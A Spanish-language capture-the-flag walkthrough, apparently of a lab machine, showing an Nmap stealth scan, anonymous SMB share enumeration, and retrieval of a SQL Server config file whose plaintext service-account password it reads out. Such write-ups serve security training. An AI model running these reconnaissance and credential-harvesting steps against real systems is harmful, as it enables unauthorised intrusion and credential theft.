 1. **Escaneamos los puertos más comunes con Nmap con los scripts predeterminados y averiguando los servicios que corren. Le ponemos `-sS` para que haga un Stealth Scan que no completa la conexión TCP, por lo que es un escaneo menos intrusivo y más indetectable.**
```bash
nmap -sS -sVC [target IP]
```
--> 135 - open - msrpc
--> 139 - open - netbios-ssn
--> 445 - open - microsoft-ds
--> 1433 - open - ms-sql-s
 
2. **Listamos el contenido del servidor SMB. Usamos `-N` para que no nos pida contraseña**
```bash
smbclient -L [target IP]
```
--> Obtenemos la siguiente tabla

| SHARENAME | TYPE | COMMENT       |
| --------- | ---- | ------------- |
| ADMIN$    | Disk | Remote Admin  |
| backups   | Disk |               |
| C$        | Disk | Default share |
| IPC$      | IPC  | Remote IPC    |

3. **Intentamos acceder al recurso `backups` sin contraseña también:**
```bash
smbclient \\\\[target IP]\\backups
```
--> Podemos acceder!

4. **Listamos el contenido del recurso y obtenemos el archivo que hay:**
```bash
smb: \> ls
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
```

5. **Vemos el contenido del archivo con `cat prod.dtsConfig` en nuestra máquina atacante y vemos que es un archivo de configuración de Microsoft SQL Server:**
```c#
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
--> Vemos en texto plano un usuario y una contraseña que son:
`Usuario=ARCHETYPE\sql_svc` y `Contraseña=M3g4c0rp123`.
 